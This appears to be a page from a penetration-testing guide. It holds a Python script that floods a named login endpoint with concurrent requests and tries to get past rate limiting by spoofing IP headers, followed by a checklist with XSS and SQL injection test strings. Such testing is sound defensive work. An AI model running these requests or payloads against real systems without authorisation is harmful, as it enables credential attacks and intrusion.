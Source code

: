 ```python
# Test Script: rate_limit_bypass.py
import requests
import threading
import time

def test_rate_limiting():
    login_endpoint = "https://api.aixblock.io/auth/login"
    
    # Test concurrent requests (race condition)
    def make_request(thread_id):
        data = {'username': 'invalid', 'password': 'invalid'}
        response = requests.post(login_endpoint, json=data)
        print(f"Thread {thread_id}: Status {response.status_code}")
        return response.status_code
    
    # Launch 50 concurrent requests
    threads = []
    for i in range(50):
        thread = threading.Thread(target=make_request, args=(i,))
        threads.append(thread)
        thread.start()
    
    # Wait for all threads
    for thread in threads:
        thread.join()
    
    # Test IP rotation bypass
    headers_list = [
        {'X-Forwarded-For': '1.1.1.1'},
        {'X-Real-IP': '2.2.2.2'},
        {'X-Originating-IP': '3.3.3.3'},
        {'X-Remote-IP': '4.4.4.4'},
        {'Client-IP': '5.5.5.5'}
    ]
    
    for headers in headers_list:
        for i in range(10):  # 10 requests per IP
            response = requests.post(login_endpoint, 
                                   json={'username': 'test', 'password': 'test'}, 
                                   headers=headers)
            if response.status_code != 429:  # Not rate limited
                print(f"Rate limit bypass with headers: {headers}")

test_rate_limiting()
```

## 🔍 Phase 3: Manual Testing Checklist

### Web Application Testing:
- [ ] **XSS Testing**: Try `<script>alert('xss')</script>` in all input fields
- [ ] **SQL Injection**: Test `' OR '1'='1` in login forms
- [ ] **CSRF**: Check if state-changing requests require CSRF tokens
- [ ] **Session Management**: Test session fixation and hijacking
- [ ] **File Upload**: Test malicious file uploads (SVG, PHP, etc.)
